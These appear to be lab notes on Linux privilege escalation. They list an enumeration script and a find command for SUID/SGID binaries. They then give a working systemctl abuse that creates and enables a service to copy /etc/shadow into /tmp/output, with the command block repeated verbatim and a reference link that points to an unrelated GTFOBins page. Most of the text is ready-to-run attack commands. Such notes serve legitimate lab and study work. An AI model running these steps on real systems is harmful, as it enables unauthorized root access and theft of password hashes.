


Abuse of functionality of executables
0. Linux Smart Enumeration(lse.sh)
target@debian:~$ ./lse.sh -i | more

1. manually locate files with the SUID or SGID bits set:
target@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

systemctl (https://gtfobins.github.io/gtfobins/wget/#file-upload)
We have to run these commands, one after the other, but first we need to edit them a little bit

target@debian:~$ TF=$(mktemp).service
target@debian:~$ echo '[Service]
> ExecStart=/bin/sh -c "cat /etc/shadow > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $TF
target@debian:~$ /bin/systemctl link $TF
target@debian:~$ /bin/systemctl enable --now $TF
target@debian:~$ cat /tmp/output
target@debian:~$ echo '[Service]
> ExecStart=/bin/sh -c "cat /etc/shadow > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $TF
target@debian:~$ /bin/systemctl link $TF
target@debian:~$ /bin/systemctl enable --now $TF
target@debian:~$ cat /tmp/output